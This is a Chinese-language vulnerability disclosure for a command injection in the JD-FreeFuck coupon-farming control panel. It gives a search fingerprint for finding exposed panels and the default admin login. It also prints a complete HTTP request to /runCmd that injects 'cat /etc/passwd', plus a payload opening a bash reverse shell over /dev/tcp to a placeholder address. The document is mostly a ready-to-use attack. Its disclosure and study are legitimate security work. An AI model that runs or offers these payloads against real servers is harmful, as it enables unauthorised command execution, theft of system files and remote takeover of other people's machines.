




JD-FreeFuck 后台命令执行漏洞¶
漏洞描述¶
JD-FreeFuck 存在后台命令执行漏洞，由于传参执行命令时没有对内容过滤，导致可以执行任意命令，控制服务器
项目地址： https://github.com/meselson/JD-FreeFuck
漏洞影响¶
JD-FreeFuck
网络测绘¶
title="京东薅羊毛控制面板"
漏洞复现¶
访问后登录页面如下

默认账号密码为
useradmin/supermanito

发送如下请求包执行命令
POST /runCmd HTTP/1.1
Host: 101.200.189.251:5678
Content-Length: 50
Pragma: no-cache
Cache-Control: no-cache
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: connect.0.6356777726800276=s%3Av1W6DxlSqnPpVgvMCItxElFeKI1Psh4i.eE4ORs0Yz30N0TOg1pUVpOqrpIHyrqIimuXJVO8lE7U
Connection: close
cmd=bash+jd.sh+%3Bcat /etc/passwd%3B+now&delay=500
其中 cmd 参数存在命令注入

反弹shell
cmd=bash+jd.sh+%3Bbash+-c+'exec+bash+-i+%26%3E%2Fdev%2Ftcp%2Fxxx.xxx.xxx.xxx%2F9999+%3C%261'%3B+now&delay=500
